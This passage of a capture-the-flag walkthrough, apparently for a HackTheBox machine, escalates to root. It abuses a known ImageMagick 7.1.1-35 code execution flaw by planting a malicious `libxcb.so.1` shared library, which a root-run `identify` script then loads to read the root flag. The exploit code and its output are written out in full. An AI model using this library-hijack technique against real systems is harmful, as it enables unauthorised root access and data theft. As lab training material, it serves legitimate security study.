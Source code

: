  Exploring `/opt`, we find a `scripts` folder containing `identify_images.sh`. Inspecting the file, we see it calls ImageMagick’s `identify` command on uploaded images.
 
  The system uses **ImageMagick 7.1.1–35**, which is vulnerable to a known arbitrary code execution exploit. By crafting a malicious file (e.g., an `.mvg` or `.svg`), we can execute commands when `identify` processes it.

```bash
developer@titanic:/opt/scripts$ magick --version
Version: ImageMagick 7.1.1-35 Q16-HDRI x86_64 1bfce2a62:20240713 https://imagemagick.org
Copyright: (C) 1999 ImageMagick Studio LLC
License: https://imagemagick.org/script/license.php
Features: Cipher DPC HDRI OpenMP(4.5) 
Delegates (built-in): bzlib djvu fontconfig freetype heic jbig jng jp2 jpeg lcms lqr lzma openexr png raqm tiff webp x xml zlib
Compiler: gcc (9.4)
```

**References**: [ImageMagick Vulnerability](https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8) - Read this for Information.
### Arbitrary Code Execution in `AppImage` version `ImageMagick`

 According to **identify_image.sh**,  We Need to be at **/opt/app/static/assets/images** , We use Medium generation **libxcb.so.1** To cause **root** Under permission **magick** Read to **root.txt**.
 
Below is a simplified example using a shared library approach, though a reverse shell payload is often used in practice. Compile a malicious `.so` file:

```bash
cd /opt/app/static/assets/images
```

```c
gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
 
__attribute__((constructor)) void init(){
    system("cat /root/root.txt > /tmp/rootflag");
    exit(0);
}
EOF
```

 Then modify the original catalog content, such as copying a picture, we need to do this in order for `magick` to run and get changes.

```bash
developer@titanic:/opt/app/static/assets/images$ cp home.jpg home2.jpg
developer@titanic:/opt/app/static/assets/images$ ls /tmp
<SNIP>
rootflag
<SNIP>
developer@titanic:/opt/app/static/assets/images$ cat /tmp/rootflag
d3878447d77eafe9926edc3cd3f369dc
```
# Pwn3d!

![what](/img/what.png)

---

